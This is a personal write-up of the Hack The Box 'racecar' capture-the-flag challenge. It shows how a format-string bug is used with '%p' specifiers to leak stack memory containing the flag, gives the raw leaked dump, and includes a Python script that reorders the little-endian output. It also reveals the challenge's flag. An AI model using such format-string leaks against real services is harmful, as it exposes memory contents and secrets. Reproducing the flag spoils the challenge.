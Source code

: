 

I actually did not solve this as intended, but a flag is a flag.

The solve I used I actually learnt from the first and only pwn Pico challenge I attempted and completed. However, I read another solve where they also used the size of the flag (44) and offsets to leak only that part of the memory. I actually prefer my way as it is much more straight forward and truly shows how bad the vulnerability was; aka leaving data on the stack with formatting errors. See image below showing the vulnerability in the code:

![[racecar the vulnerable format code.png]]


# Notes from Kali
# Getting There
RUNNING THE INSTANCE WITH NC PRINTED THE 'man, myth, legend' STRING WHICH THE LOCAL BINARY DID NOT...


### First Look
ASLR enabled:
![[racecar ldd showing ASLR enabled.png]]

Decompiled code:
![[racecar ghidra decompiled code.png]]


Upon the first formt, 0x170 is alocated in the malloc(), whereas when used in read, 0x171 is used. This must surely be the bug! --> meaning there is some leftover space to insert extra code? _Edit: sortof, it enables you to insert code after the flag is on the stack before it is printed, so can be accessed_

With the line of code `p.sendline(b"%x | %p | %u")`, this is also justified with the output `0x170` (see sc). Repeating the same with only `%p`'s returns three different addresses: `b'0x584881c0 | 0x170 | 0x5657bdfa\n'` --> weird how the 170 is in the middle...

There's a place to leak some stuff at least...

printing all the addresses, this was all we got:
`
56f6f1c0-170-565a8dfa-2f-3-26-2-1-565a996c-56f6f1c0-56f6f340-7b425448-5f796877-5f643164-34735f31-745f3376-665f3368-5f67346c-745f6e30-355f3368-6b633474-7d213f-23e5dc00-f7f9f3fc-565abf8c-ffe77788-565a9441-1-ffe77834-ffe7783c-23e5dc00-ffe777a0-0-0-f7de2f21-f7f9f000-f7f9f000-0-f7de2f21-1-ffe77834-ffe7783c-ffe777c4-1-ffe77834-f7f9f000-f7fbd70a-ffe77830-0-f7f9f000-0-0-16d96954-646bef44-0-0-0-40-f7fd5024-0-0-f7fbd819-565abf8c-1-565a8790-0-565a87c1-565a93e1-1-ffe77834-565a9490-565a94f0-f7fbd960-ffe7782c-f7fd5940-1-ffe77d3d-0-ffe77d4f-ffe77d71-ffe77d9d-ffe77dbc-ffe77ddf-ffe77e0c-ffe77e21-ffe77e3d-ffe77e5b-ffe77e77-ffe77e9f-ffe77ee1-ffe77f06-ffe77f27-ffe77f32-ffe77f54-ffe77f61-ffe77f6e-ffe77f84-ffe77fa0-ffe77fb4-ffe77fd1-0-20-f7fac550-21-f7fac000-10-1f8bfbff-6-1000-11-64-3-565a8034-4-20-5-9-7-f7fae000-8-0-9-565a8790

![[racecar cyberchef.png]]

this could then be converted from hex, either using cyberchef (see above) or creating a Python script, and would then reveal the flag in ittle endian which again could also be made right with a script:

```Python
#! /usr/bin/env python


# Code to reverse the results of leaking the addresses and stack:

to_reverse  = "{BTH_yhw_d1d4s_1t_3vf_3h_g4lt_n05_3hkc4t}!?"
print("".join(reversed(to_reverse)))

tmp = []
s = ""
for i in range(0, len(to_reverse), 4):
        tmp.append(to_reverse[i:i+4])
        #s += to_reverse[i:i+4]

print(tmp)

tmp2 = []
for i in tmp:
        tmp2.append("".join(reversed(i)))

s2 = ""
for i in tmp2:
        s2 += i

print(s2)
#HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}
```

![[racecar script showing final flag.png]]